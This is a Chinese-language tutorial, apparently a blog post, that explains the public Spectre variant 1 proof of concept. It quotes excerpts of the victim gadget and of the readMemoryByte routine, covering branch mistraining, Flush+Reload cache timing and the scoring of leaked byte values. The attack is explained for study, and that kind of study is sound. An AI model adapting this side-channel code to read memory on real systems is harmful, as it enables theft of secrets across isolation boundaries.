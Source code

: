 ```c
void victim_function(size_t x)
{
	if (x < array1_size)
	{
		temp &= array2[array1[x] * 512];
	}
}
```
1、读array1_size，CPU缓存没命中  
2、读array1_size的过程由于没命中会慢，分支预测会假设true  
3、推测读取array[1]，由于缓存命中会很快  
4、读取array2[array1[x] * 512]，由于缓存没命中会慢  
5、当执行步骤4时，步骤1完成了，处理器意识到了预测错误开始回退  

由于多数Intel处理器来说，每一个缓存线路大小都是64字节，故64*8=512，乘一个512确保在不同缓存线路中

## readMemoryByte解读

这个函数猜测指定地址的值，返回两个命中的值，如果一个都没命中，返回Unclear。用的是Flush + Reload方法

```c
for (volatile int z = 0; z < 100; z++)
{
} /* Delay (can also mfence) */
```
这一段是确保flush已经完成，处理器不再重新下指令。这一段循环也可以用mfence指令来完成，这个是Intel和AMD上的指令。

```c
x = ((j % 6) - 1) & ~0xFFFF; 
x = (x | (x >> 16)); 
x = training_x ^ (x & (malicious_x ^ training_x));
```
这一段可读性很差，防止提示分支预测器，避免跳跃用的

```c
mix_i = ((i * 167) + 13) & 255;
```
这句话放在读取可用时间的循环中，作用是混淆顺序，防止步幅预测。预测了会优化访问，这里是防止优化。

```c
if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
    results[mix_i]++; /* cache hit - add +1 to score for this value */
```
由于mix_i会服务于更多的缓存命中，故要排除这个索引

```c
 /* Locate highest & second-highest results results tallies in j/k */
j = k = -1;
for (i = 0; i < 256; i++)
{
    if (j < 0 || results[i] >= results[j])
    {
        k = j;
        j = i;
    }
    else if (k < 0 || results[i] >= results[k])
    {
        k = i;
    }
}
if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
    break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
```
找到缓存命中中最多的两个字节值
